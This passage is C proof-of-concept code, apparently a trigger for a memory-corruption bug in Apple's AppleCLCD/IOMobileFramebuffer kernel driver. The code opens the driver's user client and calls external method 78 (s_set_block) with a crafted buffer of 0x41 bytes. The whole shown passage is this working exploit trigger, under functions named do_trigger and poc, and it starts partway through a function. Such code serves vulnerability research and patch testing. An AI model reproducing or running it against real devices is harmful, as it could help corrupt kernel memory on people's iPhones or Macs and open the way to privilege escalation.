 ```c
    printf("[*] AppleCLCD service: 0x%x\n", service);

    ret = IOServiceOpen(service, mach_task_self(), type, &shared_user_client_conn);
    if(ret != KERN_SUCCESS) {
        printf("[-] failed to open userclient: %s\n", mach_error_string(ret));
        return MACH_PORT_NULL;
    }
    
    printf("[*] AppleCLCD userclient: 0x%x\n", shared_user_client_conn);
    
    return shared_user_client_conn;
}

void do_trigger(io_connect_t iomfb_uc) {
    kern_return_t ret;
    size_t input_size = 0x180;
    
    uint64_t scalars[2] = { 0 };

    char *input = (char*)malloc(input_size);
    if (input == NULL) {
        perror("malloc input");
        return;
    }
    
    memset(input, 0x41, input_size);
    *(int*)input = 0x3;
    
    ret = IOConnectCallMethod(iomfb_uc, 78,
                        scalars, 2,
                        input, input_size,
                        NULL, NULL,
                        NULL, NULL);
    
    if (ret != KERN_SUCCESS) {
        printf("s_set_block failed, ret == 0x%x --> %s\n", ret, mach_error_string(ret));
    } else {
        printf("success!\n");
    }
    
    free(input);
}



void poc(void) {
    io_connect_t iomfb_uc = get_iomfb_uc();
    if (iomfb_uc == MACH_PORT_NULL) {
       return;
    }
    
    do_trigger(iomfb_uc);
    
    IOServiceClose(iomfb_uc);
}
```
